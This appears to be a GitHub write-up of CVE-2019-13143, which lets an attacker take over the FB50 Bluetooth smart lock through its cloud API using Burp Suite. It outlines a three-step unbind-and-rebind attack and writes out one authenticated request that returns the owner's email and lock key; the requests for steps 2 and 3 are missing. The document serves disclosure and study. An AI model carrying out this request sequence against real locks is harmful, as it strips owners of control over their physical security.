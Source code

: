 # EXPOSING THE VULNURABILITES OF THE FB50 SMART LOCK

## CVE Number

CVE-2019-13143

## Details
* The FB50 smart lock
     * The FB50 smart lock is manufactured by Shenzhen Dragon Brother Technology Co. Ltd.
     * The look is sold under multiple brands on many ecommerse sites across the web.
     * It has an estimated 15k+ users.
* Product URLs
     * https://www.chinasmartlocks.com/en/product/fb50-smart-padlock.html
     * https://www.sz-mica.com/fb50.html

## How the lock works

* The FB50 pairs to a phone via Bluetooth, and requires the OKLOK app to function. The app requires the user to create an account before further functionality is available. It also facilitates configuring the fingerprint, and unlocking from a range via Bluetooth. 
    
    * Thus the 2 methods of unlocking it are:
        * By scanning the registered fingerprint.
        * By using the companion Android app when in it’s vicinity. 

## Our objective

Our objective in this project was to try to open or pick the lock and this could be done in 2 ways
* The BLE(Bluetooth Low Energy) method
* The Android app method.
Here, we have decided to focus on the Android app method.
      

## Using Burpsuite

* Before we start performing the exploit, we require the servises of Burpsuite.
* Burp Suite is an integrated platform for performing security testing of web applications that is usually used to pentest web applications by industry proffesionals
* It operates as a web proxy server, and sits as a man-in-the-middle between the browser and destination web servers. This allows the interception, inspection and modification of the raw traffic passing in both directions
* The free community version can be downloaded from [here](https://portswigger.net/burp/communitydownload)


## The exploit in brief

The entire exploit is a 3 step process consisting of authenticated HTTP requests sent via Burpsuite:
    1. Using the lock’s MAC (obtained via a simple Bluetooth scan in the vicinity), get the barcode,user ID and lock ID
    2. Using the lock ID and user ID, unbind the user from the lock
    3. Provide a new name, attacker’s user ID and the MAC to bind the attacker to the lock

## Performing the exploit

We start by connecting the Android device through our proxy made using Burpsuite.
As we turn the “Intercept” option on, all requests from the Android device are intercepted by Burpsuite.
We intercept the different requests being sent from the app which we will later modify.

### Step 1

* We proceed to use the “Repeater” feature of Burpsuite to send requests directly to the FB50 smart lock
* For example, we send the request 
    '''
    POST /oklock/lock/getDeviceInfo HTTP/1.1
    User-Agent: nokelockTool/1.4.8(<DEVICE INFO>)
    clientType: Android
    token: <TOKEN>
    language: US
    appVersion: 1.4.8
    Content-Type: application/json;charset=UTF-8
    Content-Length: 56
    Host: api.oklock.com.cn
    Connection: close
    Accept-Encoding: gzip, deflate

    {"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"}

      
   * To which we get the follwing response
   
   '''
    HTTP/1.1 200 
    Server: nginx/1.13.3
    Date: Sat, 21 Sep 2019 05:29:38 GMT
    Content-Type: application/json
    Content-Length: 409
    Connection: close

{"result":{"account":"<USER EMAILID>","alarm":0,"barcode":"<BARCODE>","chipType":"1","createAt":"<DATE&TIME","deviceId":"","electricity":"91","firmwareVersion":"2.3","gsmVersion":"","id":<LOCKID>,"isLock":0,"lockKey":"40,1,61,18,20,24,18,8,52,57,36,96,91,1,87,20","lockPwd":"000000","mac":"<MAC ADDRESS>","name":"LOCK NAME","radioName":"BlueFPL","type":0,"userId":<USER ID>},"status":"2000"}









### Step 2

   * And now that we have all necessary information, we shall proceed to unbind the lock from the victim’s device using the victim’s USER ID.
      


### Step 3

   * And now we proceed to bind it to the attacker’s device using the following command.





## Conclusion

   * Thus, we have succesfully transfered control of the FB50 smart lock from the victiom’s app to the attacker’s app.
   * The severity of this issue lies in the fact that the original owner completely loses access to their lock. They can’t even “rebind” to get back, since the current owner (the attacker) needs to authorize that.  

## References

   * FB50 Smart Lock Vulnerability Disclosure (CVE-2019-13143)
   * https://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure/
   * https://icyphox.sh/blog/fb50/
